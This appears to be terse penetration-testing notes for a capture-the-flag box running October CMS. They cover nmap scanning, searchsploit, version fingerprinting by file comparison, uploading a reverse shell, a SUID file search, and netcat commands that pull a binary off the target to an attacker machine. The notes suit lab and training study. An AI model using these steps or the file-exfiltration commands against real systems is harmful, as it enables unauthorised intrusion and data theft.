 nmap -sV -sC -oA nmap &lt;host&gt;

searchsploit october

search vulnerabilities based on the version of the system

* is it outdated?
* what is the version that has vulnerabilities
* download 2 versions of the application \(cms\)

* find the files that have been updated

* compare their hashes

* try to access the README.md to see the changelogs

* remove the unnecessary files

exploit

* upload the reverse-shell script
* when accessed the shell

  * find / -perm -4000 2&gt;/dev/null \(search set-uid files\)
  * 

* get files from the remote server

  * nc -l -p 999 &gt; ovrflw \(local\)
  * nc 10.10.12.194 -p 999 &lt; /usr/local/bin/ovrflw



